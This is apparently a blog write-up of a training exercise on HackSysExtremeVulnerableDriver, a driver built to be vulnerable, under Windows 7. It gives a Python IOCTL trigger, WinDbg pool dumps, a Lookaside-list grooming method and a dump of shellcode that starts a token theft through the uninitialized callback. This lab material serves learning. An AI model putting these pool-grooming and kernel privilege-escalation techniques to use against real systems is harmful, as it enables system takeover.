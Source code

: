 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver UninitializedHeapVariable
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Let's work with the same steps like the last challenge.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x222033, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Set a breakpoint at TriggerUninitializedHeapVariable method
```
kd> bp HEVD!TriggerUninitializedHeapVariable+0x119
kd> g
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x983C6F10
[+] UserValue: 0xFFFFFFFF
[+] UninitializedHeapVariable Address: 0x8D6D5BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x05000000
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
957c3e83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x983C6F10
Pool page 983c6f10 region is Paged pool
 983c6000 size:  200 previous size:    0  (Allocated)  MmRe
 983c6200 size:   38 previous size:  200  (Allocated)  CMVa
 983c6238 size:   10 previous size:   38  (Free)       CMVI
 983c6248 size:   50 previous size:   10  (Allocated)  NtFd
 983c6298 size:   e8 previous size:   50  (Allocated)  FMfn
 983c6380 size:   30 previous size:   e8  (Allocated)  CMpb Process: 9352eb88
···
 983c6dd8 size:   58 previous size:   28  (Allocated)  MmRe
 983c6e30 size:   b0 previous size:   58  (Allocated)  NpFc Process: 87ce03a8
 983c6ee0 size:   28 previous size:   b0  (Allocated)  NtFs
*983c6f08 size:   f8 previous size:   28  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
```


## 0x002 Exploit it!

Vulnerability is obvious, I don't want to say any more.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x001.png)

First, we should know some structure about Lookaside list and ListHead list

Lookaside list is normally organized by Singly Linked List, there is a block's layout on this kind of list after freeing. 
```
| _POOL_HEADER(8 byte) | _SINGLE_LIST_ENTRY(4 byte) | buffer[size] |
```

However, for ListHead list, which is organized by Double Linked List
```
| _POOL_HEADER(8字节) | _LIST_ENTRY(8 byte) | buffer[size] |
```

Now, we pay attention on the vulnerability module
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x002.png)
The member Callback is at the offet of 0x4, that's mean the pool can't allocate by ListHead list, otherwise, "Callback" would be overwrite.

We need to allocate 256 objects of same size and then freeing them, because Lookaside list only manages upto 256 chunks. if increase the number, the allocation would come from ListHead list.

When our vulnerability method require a 0xf8 size pool, it will get a provioud chunks which organize by Lookaside list, while the content after the offset of 0x4 are no reseting.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x97F9AB78
[+] UserValue: 0xBAD31337
[+] UninitializedHeapVariable Address: 0x935D7BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x0158D1EC
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
9579de83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x97F9AB78
Pool page 97f9ab78 region is Paged pool
 97f9a638 size:    8 previous size:    0  (Allocated)  Frag
 97f9a640 size:   b0 previous size:    8  (Allocated)  VdPN
 97f9a6f0 size:    8 previous size:   b0  (Free)       Toke
 97f9a6f8 size:   18 previous size:    8  (Allocated)  CMNb (Protected)
 97f9a710 size:   18 previous size:   18  (Allocated)  CMIn (Protected)
 97f9a728 size:    8 previous size:   18  (Free)       CcPh
 97f9a730 size:   18 previous size:    8  (Allocated)  CMIn (Protected)
 97f9a748 size:   40 previous size:   18  (Allocated)  CMDa
 97f9a788 size:   38 previous size:   40  (Allocated)  CMVa
 97f9a7c0 size:   38 previous size:   38  (Allocated)  CMDa
 97f9a7f8 size:   18 previous size:   38  (Allocated)  CMNb (Protected)
 97f9a810 size:   48 previous size:   18  (Allocated)  CMVa
 97f9a858 size:   80 previous size:   48  (Allocated)  CMDa
 97f9a8d8 size:    8 previous size:   80  (Free)       ObNm
 97f9a8e0 size:   18 previous size:    8  (Allocated)  CMVI
 97f9a8f8 size:   20 previous size:   18  (Free)       SeSc
 97f9a918 size:   e0 previous size:   20  (Allocated)  FMfn
 97f9a9f8 size:   38 previous size:   e0  (Allocated)  CMDa
 97f9aa30 size:   18 previous size:   38  (Allocated)  PfFK
 97f9aa48 size:  120 previous size:   18  (Allocated)  FMfn
 97f9ab68 size:    8 previous size:  120  (Free)       FMfn
*97f9ab70 size:   f8 previous size:    8  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 97f9ac68 size:  118 previous size:   f8  (Allocated)  FMfn
 97f9ad80 size:    8 previous size:  118  (Free)       Toke
 97f9ad88 size:   38 previous size:    8  (Allocated)  CMNb (Protected)
 97f9adc0 size:   38 previous size:   38  (Allocated)  CMNb (Protected)
 97f9adf8 size:   40 previous size:   38  (Allocated)  CMDa
 97f9ae38 size:   20 previous size:   40  (Allocated)  CMNb (Protected)
 97f9ae58 size:   38 previous size:   20  (Allocated)  CMDa
 97f9ae90 size:   60 previous size:   38  (Allocated)  Key  (Protected)
 97f9aef0 size:   38 previous size:   60  (Allocated)  CMNb (Protected)
 97f9af28 size:    8 previous size:   38  (Free)       FMfn
 97f9af30 size:   68 previous size:    8  (Allocated)  FIcs
 97f9af98 size:   68 previous size:   68  (Allocated)  FIcs
```

Now, it will call an uninitialized Addr, which we set up to our shellcode Addr
```
kd> dd 97f9ab70
97f9ab70  061f0201 6b636148 00000000 0158d1ec
97f9ab80  42424242 42424242 42424242 42424242
97f9ab90  42424242 42424242 42424242 42424242
97f9aba0  42424242 42424242 42424242 42424242
97f9abb0  42424242 42424242 42424242 42424242
97f9abc0  42424242 42424242 42424242 42424242
97f9abd0  42424242 42424242 42424242 42424242
97f9abe0  42424242 42424242 42424242 42424242
kd> u 0158d1ec
0158d1ec 90              nop
0158d1ed 90              nop
0158d1ee 90              nop
0158d1ef 90              nop
0158d1f0 60              pushad
0158d1f1 64a124010000    mov     eax,dword ptr fs:[00000124h]
0158d1f7 8b4050          mov     eax,dword ptr [eax+50h]
0158d1fa 89c1            mov     ecx,eax
```

pwn~
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x003.png)